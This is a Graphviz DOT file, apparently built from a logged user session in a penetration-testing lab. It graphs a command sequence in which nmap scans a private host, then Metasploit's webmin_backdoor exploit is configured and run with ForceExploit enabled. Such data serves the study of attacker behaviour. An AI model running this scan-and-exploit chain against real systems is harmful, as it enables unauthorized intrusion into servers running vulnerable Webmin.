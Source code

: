 // creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 A1 "]
	1 [label="nmap -h A0 A1 "]
	2 [label="nmap -p 1-65535 172.18.1.5 M0 "]
	3 [label="nmap -A -p 10000 172.18.1.5 V0 "]
	4 [label="msfconsole M2 "]
	5 [label="use exploit/linux/http/webmin_backdoor M8 "]
	6 [label="use exploit/unix/http/webmin_backdoor V8 "]
	7 [label="search webmin M3 "]
	8 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	9 [label="show options M5 "]
	10 [label="set lhost 10.1.135.83 A6 "]
	11 [label="set rhosts 172.18.1.5 A6 "]
	12 [label="show targets A5 "]
	13 [label="show options V5 "]
	14 [label="exploit  V8 "]
	15 [label="set srvhost 10.1.135.83 A6 "]
	16 [label="exploit  V8 "]
	17 [label="show options V5 "]
	18 [label="set ForceExplot A6 "]
	19 [label="set ForceExploit A6 "]
	20 [label="set ForceExploit true A6 "]
	21 [label="exploit V8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	rankdir=LR
}
